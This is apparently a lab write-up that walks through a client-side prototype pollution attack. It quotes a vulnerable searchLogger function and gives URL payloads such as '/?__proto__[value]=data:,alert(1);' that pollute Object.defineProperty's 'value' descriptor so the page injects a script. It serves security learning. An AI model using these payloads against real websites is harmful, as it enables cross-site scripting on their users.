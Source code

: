 # Lab 4

### Objective: Get DOM XSS

Let's test for the source using the usual payload

```
/?__proto__[foo]=bar
```

Verify it in the console

```
Object.prototype.foo
```

![](<../../../.gitbook/assets/image (24).png>)

Okay that worked, now we need to find a gadget, check out the sources file. We have one noticeable block

```js
async function searchLogger() {

    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

So the usual gadget `trasport_url` cannot being used this time because it is defined from the `config` object.

In the next line, we see `Object.defineProperty` method is used to make the `transport_url` property unconfigurable and unwritable. Fortunately, just like the `fetch` API, the method doesn't explicitly define an **optional objects**. In this case, its the `value` property.

We can use the `value` property as our gadget to be polluted and the `script` element as our sink

**Exploit**

We can test our payload first

```
/?__proto__[value]=bar
```

Now, we check if the `script` tag has appeared

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Nice, that worked. Now we just trigger an alert

```
/?__proto__[value]=data:,alert(1);
```

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
